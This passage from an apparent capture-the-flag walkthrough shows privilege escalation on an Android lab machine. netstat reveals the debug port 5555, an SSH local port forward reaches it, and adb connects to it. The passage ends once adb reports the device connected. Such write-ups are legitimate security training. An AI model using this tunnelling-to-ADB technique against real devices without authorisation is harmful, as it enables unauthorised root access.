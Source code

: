 

## Shell as root

### Enumeration

`netstat` shows the same ports that I noticed with `nmap`, except that
now I can access 5555:



    :/ $ netstat -tnlp
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program Name
    tcp6       0      0 :::42135                :::*                    LISTEN      -
    tcp6       0      0 ::ffff:10.10.10.2:43159 :::*                    LISTEN      -
    tcp6       0      0 :::59777                :::*                    LISTEN      -
    tcp6       0      0 ::ffff:127.0.0.1:33837  :::*                    LISTEN      -
    tcp6       0      0 :::2222                 :::*                    LISTEN      3659/net.xnano.android.sshserver
    tcp6       0      0 :::5555                 :::*                    LISTEN      -
    tcp6       0      0 ::ffff:127.0.0.1:5555   ::ffff:127.0.0.1:37684  ESTABLISHED -
    tcp6       0      0 ::ffff:127.0.0.1:37684  ::ffff:127.0.0.1:5555   ESTABLISHED 3659/net.xnano.android.sshserver
    tcp6       0     80 ::ffff:10.10.10.24:2222 ::ffff:10.10.14.1:53452 ESTABLISHED 3659/net.xnano.android.sshserver
    tcp6       0      0 ::ffff:127.0.0.1:37686  ::ffff:127.0.0.1:5555   ESTABLISHED 3659/net.xnano.android.sshserver
    tcp6       0      0 ::ffff:10.10.10.2:59777 ::ffff:10.10.14.1:54854 CLOSE_WAIT  -
    tcp6       0      0 ::ffff:127.0.0.1:5555   ::ffff:127.0.0.1:37686  ESTABLISHED -



Given that 5555 is the debug port, that's definitely worth checking out.
I'll reconnect SSH with `-L 5555:localhost:5555`. That will forward any
traffic I send to my VM on 5555 through the SSH tunnel to Explore on
5555.

### adb

`apt install adb` will install the tools needed to interact with Android
debug. `adb devices` will list the currently connected devices:



    oxdf@parrot$ adb devices
    List of devices attached



`adb connect [ip]` will start the connection, and it shows connected:



    oxdf@parrot$ adb connect localhost:5555
    connected to localhost:5555
    oxdf@parrot$ adb devices
    List of devices attached
    localhost:5555  device
